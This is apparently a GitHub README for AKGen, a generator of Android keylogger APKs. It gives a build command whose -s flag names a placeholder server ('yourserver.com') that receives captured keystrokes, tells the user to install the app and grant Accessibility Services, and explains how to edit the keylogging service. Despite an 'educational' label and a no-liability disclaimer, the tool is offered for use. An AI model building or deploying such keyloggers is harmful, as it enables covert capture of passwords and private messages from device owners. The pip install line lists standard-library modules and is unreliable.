 # Android Keylogger Generator (AKGen)

AKGen is an open-source tool that allows users to generate a custom keylogger APK for Android devices. This tool is strictly for educational and ethical purposes. It helps users understand how keyloggers work and how to protect against them.

---

## Features
- **Customizable Keylogger:** Generate a keylogger APK with your own settings.
- **Local or Remote Logging:** Save keystrokes locally or send them to a remote server.
- **Tested on Kali Linux:** Fully compatible with Kali Linux.

---

## Prerequisites
Before using AKGen, ensure you have the following installed:
1. **Python 3** (Pre-installed on Kali Linux)
2. **Android SDK** (Download from [developer.android.com](https://developer.android.com/studio))
3. **Gradle** (Install using `sudo apt install gradle`)
4. **Git** (Install using `sudo apt install git`)


---

## Installation
1. Clone the repository:
```bash
git clone https://github.com/trmxvibs/AKGen
cd AKGen
```
2. Install required dependencies:
 ```bash
pip install argparse subprocess os shutil
```

3. Set up Android SDK and Gradle:

Download and install Android SDK.

Set environment variables:
```bash
export ANDROID_HOME=/path/to/android-sdk
export PATH=$PATH:$ANDROID_HOME/tools/bin
```
---

# How to Use
Step 1: Generate the APK
Run the following command to generate the keylogger APK:
```bash
python akgen.py -o akgen.apk -s http://yourserver.com
```
`-o`: Output APK file name.

`-s`: Server URL to send keystrokes (optional). If not provided, keystrokes will be saved locally.


# Step 2: Install the APK
Transfer the generated APK (`akgen.apk`) to your Android device.

Install the APK on your device.

 # Step 3: Enable Keylogger
Open the app on your Android device.

Click the "Enable Keylogger" button.

Grant the necessary permissions (Accessibility Services).
---
# Customization
You can customize the keylogger APK as per your requirements:

1. Change Server URL
Modify the `-s` parameter in the command to specify your server URL:
```
python akgen.py -o output.apk -s http://your-custom-server.com
```
2. Modify Keylogger Logic
Edit the KeyLoggerService.java file in the template_apk folder to change the keylogger behavior:

`private static final String SERVER_URL = "YOUR_SERVER_URL`


3. Modify UI
Edit the `activity_main.xml` file in the `template_apk` folder to change the app's user interface.


---

# How It Works -
APK Generation:

The `akgen.py` script modifies the template APK based on user input (e.g., server URL).

It builds the APK using Gradle.

Keylogger Functionality:

The app uses Android's Accessibility Services to capture keystrokes.

Captured keystrokes are either saved locally or sent to a remote server.




# License
This project is licensed under the MIT License. See the LICENSE file for details.

# Contributing
Contributions are welcome! If you have any suggestions or improvements, feel free to open an issue or submit a pull request.

# Disclaimer
The developers are not responsible for any misuse of this tool. Use it at your own risk.























